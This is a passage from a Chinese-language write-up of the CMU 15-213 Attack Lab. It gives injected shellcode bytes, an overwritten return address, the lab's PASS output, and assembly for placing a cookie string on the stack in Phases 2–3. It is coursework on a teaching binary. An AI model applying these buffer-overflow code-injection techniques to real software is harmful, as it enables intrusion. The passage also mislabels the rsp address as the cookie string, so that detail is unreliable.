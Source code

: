 `gdb`设置断点在`getbuf`函数，然后步进到`sub`指令为`buf`分配完空间之后，查看`rsp`的值。

我得到的`rsp`的值为`0x5561dc78`，故应该输入到终端的数据的十六进制表达为：

```
48 c7 c7 fa 97 b9 59 68 ec 17 40 00 c3 11 11 11 11 11 
11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 
11 11 11 11 78 dc 61 55 00 00 00 00
```

用`hex2raw`转换了之后，输入给`ctarget`，就通过了`Phase 2`。

```
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 EC 17 40 00 C3 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 11 78 DC 61 55 00 00 00 00
```

## 给函数传个字符串

这是`Phase 3`要做的事情。和上面一样，函数的参数放在`rdi`寄存器。我们要给`rdi`寄存器存进一个字符串的开头，这个字符串放`cookie`的十六进制字符串`5561dc78`。

这个字符串也是我们通过终端输入注入的，需要放在某个地方。这时就可以放在更远的栈上了，需要小心推算位置。

`Writeup`提醒我们注意，`touch3`会调用函数，会往栈上写东西。如果把字符串放在原来`buf`数组内部，可能会让字符串内容被污染。我们一定要把字符串放在`getbuf`函数存放返回地址的上面。

```
|  "5561dc78"   |  <-- cookie str
|               |
.               .
.               .
|               |
|_______________|  <-- getbuf's caller stack
|__return addr__|
|               |  <-- buf ends
.               .
.               .
.               .
|               |
|_______________|  <-- buf
```

这很好办，通过终端多输入一些字节就可以了。

我没有采用以上所描述的办法，因为要仔细数输入字节的个数，差一点都不行，这很麻烦。可以让注入执行的代码往栈的某个位置赋值，把`cookie`的`ASCII码表示写进内存。

```nasm
movq  $0x6166373939623935,%rbx
movq  $0x5561dca8,%rcx
movq  %rbx,0(%rcx)   ; 寄存器间接寻址
movl  $0x0,8(%rcx)   ; '\0'
```
